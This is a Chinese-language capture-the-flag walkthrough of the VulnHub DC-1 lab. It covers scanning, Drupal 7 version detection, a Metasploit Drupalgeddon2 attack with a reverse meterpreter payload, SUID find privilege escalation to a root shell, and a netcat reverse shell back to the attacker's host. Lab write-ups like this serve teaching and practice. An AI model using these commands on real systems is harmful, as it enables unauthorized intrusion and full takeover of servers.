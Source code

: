 [TOC]



# 一、主机发现

使用netdisvocer和nmap进行主机发现。

```shell
netdiscover -r 192.168.217.0/24
```

![1554818423767](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554818423767.png)

通过上述扫描，发现192.168.217.139，应该为本次靶机

```shell
nmap -A -v 192.168.217.139
```

![1554818540536](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554818540536.png)

通过nmap端口检测，确认存在端口信息如下：

```
22 ssh端口
80 http端口 apache服务
111 rpcbind端口
```

同时通过nmap发现其中web服务存在robots.txt文件，并且猜测是drupal 7。

# 二、web渗透

首先访问web首页。

![1554818744285](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554818744285.png)

确认是drupal cms

接下来访问robots.txt

```php
User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

检查drupal的版本，访问

192.168.217.139/CHANGELOG.txt   发现不存在

192.168.217.139/UPGRADE.txt

![1554819082148](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554819082148.png)

可以通过cmseek确认版本

```
python3 cmseek.py -u http://192.168.217.139
```

![1554819614477](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554819614477.png)

可以断定是drupal 7

使用searchsploit搜一下这个版本的漏洞

```shell
searchsploit drupal 7
```

![1554819876533](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554819876533.png)

我们这里拿其中小于7.58版本的rce漏洞进行测试。

```
more /usr/share/exploitdb/exploits/php/webapps/44557.rb
```

![1554819960264](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554819960264.png)

这个漏洞是CVE-2018-7602。我们可以拿metasploit进行攻击

```shell
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts 192.168.217.139
set payload php/meterpreter/reverse_tcp
set lhost 192.168.217.130
set lport 4444
exploit
```

成功拿到web权限的shell

![1554820795584](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554820795584.png)

接下来，找到了flag文件，并查看其中内容

![1554820893010](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554820893010.png)

那么，下一步需要我们进行提权。

# 三、提权

首先找一下具有suid权限的应用

```shell
find / -perm -u=s -type f 2>/dev/null
```

![1554821273753](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554821273753.png)

其中/usr/bin/find具有suid权限，可以利用它来一波

首先创建一个空文件

```shell
cd /tmp
touch test
```

然后执行find命令进行提权

```
find test -exec 'whoami' \;
```

![1554821476149](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554821476149.png)

可以看到，可以直接拿到root权限。

那么我们再执行

```shell
find test -exec '/bin/sh' \;
```

![1554821540518](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554821540518.png)

提权成功，去获取flag

这里，使用当前的命令行是无法读取文件的，因此需要通过nc来转一下

```shell
攻击机
nc -nlvvp 1234
受害机
nc 192.168.217.130 1234 "/bin/bash"
```

收到反弹的shell以后，获取命令提示符

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

将上述步骤执行一遍，提权成功以后，获取flag

![1554822617060](F:\学习资料\github\vulnhub-writeup\DC-1\assets\1554822617060.png)

